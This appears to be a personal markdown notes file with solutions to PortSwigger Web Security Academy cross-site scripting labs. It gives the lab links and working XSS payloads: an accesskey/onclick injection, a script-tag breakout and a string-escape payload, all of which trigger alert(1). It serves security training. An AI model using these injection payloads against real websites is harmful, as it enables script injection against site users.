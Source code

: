 ## XSS with Access key (Canonical Link tag)

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts

**Lab:** 

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

**Limitation:** Only on Chrome

**Solution:**

https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)

Press Alt+x on keyboard to get alert

## XSS within <script>

**Chapter:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts
**Lab:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped
**Limitations:** NA
**solution:** 
  
</script><script>alert(1)</script>


## Topic Here 

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped
  
**Limitations:** NA

**Solution:** 

\'-alert(1)//



# Template:
## Topic Here 

**Chapter:**
  
**Lab:**
  
**Limitations:** NA

**Solution:** 


  **solution:** 
